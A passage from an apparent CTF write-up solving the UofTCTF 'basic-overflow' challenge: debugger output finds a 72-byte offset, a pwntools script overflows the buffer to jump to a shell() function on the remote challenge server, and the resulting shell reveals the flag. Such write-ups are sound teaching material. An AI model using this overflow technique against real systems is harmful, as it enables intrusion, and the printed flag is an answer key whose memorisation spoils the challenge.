 ```console
02:0010│     0x7fffffffddf8 ◂— 'laaaaaaamaaa'
03:0018│     0x7fffffffde00 ◂— 0x6161616d /* 'maaa' */
04:0020│     0x7fffffffde08 —▸ 0x7fffffffdef8 —▸ 0x7fffffffe21b ◂— '/home/vulnx/Games/CTFs/UofT/pwn/basic-overflow/basic-overflow'
05:0028│     0x7fffffffde10 —▸ 0x7fffffffdef8 —▸ 0x7fffffffe21b ◂— '/home/vulnx/Games/CTFs/UofT/pwn/basic-overflow/basic-overflow'
06:0030│     0x7fffffffde18 ◂— 0x978d4bf91e909
07:0038│     0x7fffffffde20 ◂— 0x0
─────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────
 ► 0         0x401175 main+31
   1 0x616161616161616a
   2 0x616161616161616b
   3 0x616161616161616c
   4       0x6161616d
   5   0x7fffffffdef8
   6   0x7fffffffdef8
   7  0x978d4bf91e909
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l 0x616161616161616a
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```
so the offset is 72. Let's make a simple payload to write 72 bytes to fill up the buffer + address of `shell()` to redirect RIP to it.
```py
import pwn

p64 = lambda x : pwn.pack(x, word_size=64)

elf = pwn.ELF('./basic-overflow', checksec=False)

p = pwn.remote('34.123.15.202', 5000)

offset = 72
payload  = b''
payload += b'A' * offset
payload += p64(elf.symbols['shell'])

p.sendline(payload)

p.interactive()
```
{: file="solve.py"}
```console
> python solve.py
[+] Opening connection to 34.123.15.202 on port 5000: Done
[*] Switching to interactive mode
$ ls
flag
run
$ cat flag
uoftctf{reading_manuals_is_very_fun}
```
### Flag
`uoftctf{reading_manuals_is_very_fun}`
